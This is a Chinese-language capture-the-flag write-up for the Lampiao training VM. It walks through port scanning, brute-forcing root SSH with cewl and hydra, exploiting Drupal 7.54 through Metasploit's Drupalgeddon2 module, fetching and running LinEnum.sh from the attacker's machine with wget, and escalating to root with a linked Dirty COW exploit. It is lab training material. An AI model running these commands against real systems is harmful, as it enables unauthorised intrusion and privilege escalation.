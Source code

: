 ```yaml
---
title: Lampiao（dirtycow）
categories:
- training
tags:
- training
- cms
- linux os
---
```

[参考资料：linux 提权脚本](https://www.freebuf.com/sectool/121847.html)

---

info
```
22/tcp open  ssh OpenSSH 6.6.1p1 Ubuntu
80/tcp open  http
OS details: Linux 3.2 - 4.8
```

关于80端口，肯定有防火墙之类的东东==
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/1.PNG)

dirbuster、nikto、nmap、unicornscan找不到任何信息。除了浏览器直接访问80端口，返回了一个页面，It's easy，个鬼啊！！！

最神奇的是只要burp一挂代理，目标机就没有响应了，一关代理，就返回It's easy的页面。感觉好像被靶机作者调戏了。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/12.PNG)
em...应该是连接80端口，就会发送回这个字符画。

我不想爆破ssh了，看wp吧==
看大佬表演。。
## 思路一（爆破ssh）
用nmap -p- -Pn -vv ip 扫描将近一个小时，65535个端口，可以发现1898端口开放。
根据这个端口生成一个字典，hydra爆破即可获得shell。
dirtycow exp运行一下，即可得到root权限。

cewl -w dict.txt http://192.168.11.131:1898/?q=node/1
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh

好无聊，爆破什么的没有美感~~

## 思路二（cms漏洞命令执行）
#### 1898-http
该端口开放http服务，页面下方显示drupal
robots.txt提示了，`http://ip:1898/CHANGELOG.txt`
更新版本为Drupal 7.54

#### 查找可用exploit
Drupal < 7.58 - 'Drupalgeddon3'  Remote Code
```
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST ip
set RPORT 1898
run
shell
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/2.PNG)

#### msf导入载荷
在用metasploit找不到可用漏洞的模块情况下，可以在`https://www.exploit‐db.com/` 上搜索并保
存。
然后在/root/.msf4/modules/exploits/ 目录下新建一个自定义目录，并在该目录下存放你的msf
模块。
例如，新建/root/.msf4/modules/exploits/new ,并在该目录下存放1234.rb模块。

#### 寻找可用exp的bash脚本
[LinEnum.sh](https://github.com/rebootuser/LinEnum)，用这个提权脚本搜集可用信息。
```
kali执行：
#python -m SimpleHTTPServer
----------------
反弹shell执行：
cd /tmp
wget http://192.168.1.128:8000/LinEnum.sh
chmod a+x LinEnum.sh
./LinEnum.sh > log.txt
```
运行了提权检查脚本以后，发现输出实在太多了，而且多数是没有什么意义的输出，例如error,xxxx

如果是我来设计提权脚本，我尝试了99种，失败了98种提权尝试，那么我会输出一种可能的提权方式，而不是98失败+1成功。

---

[linux-exploit-suggester.sh](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

dirty cow,exp :https://www.exploit-db.com/download/40847.cpp
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/3.PNG)

